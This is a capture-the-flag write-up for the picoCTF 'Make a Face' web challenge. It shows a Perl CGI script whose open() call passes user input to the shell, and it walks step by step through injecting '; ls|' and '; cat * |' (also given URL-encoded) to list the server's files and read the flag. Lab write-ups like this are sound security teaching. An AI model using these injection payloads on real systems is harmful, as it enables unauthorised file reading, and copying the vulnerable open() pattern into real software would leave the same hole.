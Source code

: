 ## Make a Face - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 15:05:08

Last modified: 2014-11-09 23:02:58


Created: 2014-11-08 15:05:08

Last modified: 2014-11-09 23:02:51


Created: 2014-11-08 15:05:08

Last modified: 2014-11-09 23:02:46


Created: 2014-11-08 15:05:08

Last modified: 2014-11-09 23:01:36


### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):

<img src="makeafacecap1.JPG"/>

Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):

<img src="makeafacecap2.JPG"/>

Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:
<img src="makeafacecap3.JPG"/>

Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:
<img src="makeafacecap4.JPG"/>

opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:
<img src="makeafacecap5.JPG"/>
![alt text](makeafacecap5.JPG)

Which reveals the text

```

SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp

```

Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of any file in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
<img src="makeafacecap6.JPG"/>.

Downloading and opening the `bmp` with a text editor reveals the flag!
### Flag
    why_did_we_stop_using_perl_again?

